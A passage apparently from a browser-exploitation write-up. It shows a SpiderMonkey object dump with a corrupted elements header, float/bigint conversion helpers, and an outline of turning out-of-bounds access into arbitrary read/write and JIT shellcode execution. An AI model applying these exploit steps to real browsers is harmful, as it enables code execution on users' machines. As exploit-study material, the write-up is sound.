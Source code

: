 ```js
// ...
{
  "type": "object",
  "address": "(JSObject*)0xb75bf300080",
  // ...
  "elementsHeader": "<(js::ObjectElements*)0xb75bf300098, flags=[FIXED], init=3, capacity=256, length=256>", // <-- len and cap hijacked
  // ...
  "elements": {
    "0": "6.365987376e-314 / <private @ 0x300000006>",
    "1": "18",
    "2": "19"
  }
}
```

Due to SpiderMonkey's representation of a `JSValue`, we cannot write our value as 8 bytes directly, rather we have to write it in as a float -- common in browser exploitation setups:

```js
let arr_buf = new ArrayBuffer(8); /* shared buffer */
let f64_arr = new Float64Array(arr_buf); /* buffer for float */
let b64_arr = new BigUint64Array(arr_buf); /* buffer for bigint */

function ftoi(f) {
    f64_arr[0] = f;
    return b64_arr[0];
}

function itof(i) {
    b64_arr[0] = i;
    return f64_arr[0];
}
```

But as we can see, we managed to overwrite the `elements` metadata of `target`, which means we can now swap elements way outside its initial range (of capacity 6) without `swap()` complaining. Combined with being able to read from and write to its own elements, we now have effectively a full-fledged OOB read/write.

The remaining steps are pretty standard procedure:
1. Convert into AAR/W
2. Generate a JIT function containing shellcode
3. Find the function address
4. Modify the calling address to shellcode offset
5. Call the JIT function

For (1), we create a `Uint8Array` puppet, right below our target, whose buffer pointer we modify to allow us to read/write bytes at the hijacked address.

```js
      // ...
      target = [0x11, 0x12, 0x13];
      puppet = new Uint8Array(8);
      dumpValue(target);
      dumpValue(puppet);
      // ...
```
